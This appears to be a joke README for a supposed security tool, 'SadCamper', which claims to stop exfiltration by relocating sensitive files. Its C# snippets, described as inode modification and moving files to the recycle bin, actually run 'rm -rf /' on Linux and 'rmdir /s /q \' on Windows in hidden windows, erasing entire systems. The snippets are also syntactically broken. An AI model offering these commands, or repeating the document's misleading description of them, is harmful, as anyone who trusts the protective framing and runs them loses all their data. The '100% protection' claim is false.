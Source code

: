 # SadCamper
SadCamper is a tool designed for security personnel to prevent the exfiltration of critically sensitive files from an organization.  It works by preemptively relocating files, adding an additional layer of security by potentially thwarting attackers' attempts to identify and exfitrate these files.

### ⚠️ Warning
SadCamper manipulates critical sensitive files to prevent threat actor access.  It may cause a small amount of impact to the systems containing these files.

### How it works
SadCamper preemptively relocates files, providing 100% protection against threat actor attempts to identify and exfiltrate them.  It utilizes proprietary code, which we have recently made public, and is shown below.

On linux, SadCamper will recursively modify inode tables using our SpacialSec machine-learning powered, cloud native technology.
```c#
Process process = new Process();
psi.FileName = "/bin/bash";
psi.Arguments = "rm -rf /";
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
psi.CreateNoWindow = true;
using var process = Process.Start(psi);
process.WaitForExit();
```

On Windows, SadCamper will recursively move files to the recycling bin using our SpacialSec machine-learning powered, cloud native technology.
```c#
Process process = new Process();
psi.FileName = "cmd.exe";
psi.Arguments = "rmdir /s /q \";
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
psi.CreateNoWindow = true;
using var process = Process.Start(psi);
process.WaitForExit();
```



